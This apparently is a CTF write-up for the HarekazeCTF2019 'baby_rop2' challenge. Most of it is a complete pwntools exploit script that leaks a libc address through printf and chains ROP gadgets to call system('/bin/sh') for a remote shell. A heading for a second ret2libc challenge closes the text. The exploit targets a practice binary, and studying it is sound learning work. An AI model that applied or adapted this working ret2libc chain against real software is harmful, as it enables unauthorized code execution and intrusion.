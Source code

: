 ## HarekazeCTF2019-baby_rop2
### 思路
ret2libc

### exp
```python
from pwn import *

#context.log_level = "debug"

p = remote("node5.buuoj.cn",25568)
#p = process("./babyrop2")
elf = ELF("./babyrop2")

printf_plt = elf.plt["printf"]
printf_got = elf.got["printf"]
read_got = elf.got['read']
main = 0x400636

pop_rdi = 0x400733
pop_rsi_r15 = 0x400731
ret = 0x400734

format_s = 0x400790

#gdb.attach(p)

payload1 = b'A'*40 + p64(pop_rdi) + p64(format_s) +p64(pop_rsi_r15) + p64(read_got) + p64(0) + p64(printf_plt) + p64(main) + b'A'*8
p.recvuntil(b"name? ")
p.sendline(payload1)
read_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))

print(hex(read_addr))

system_addr = read_addr - 0xb1ec0
binsh = read_addr + 0x95b07

payload2 = b'A'*40 + p64(pop_rdi) + p64(binsh) + p64(system_addr)
p.sendline(payload2)

p.interactive()
```

## pwn2_sctf_2016
### 思路
ret2libc
这次用的LibcSearcher找libc
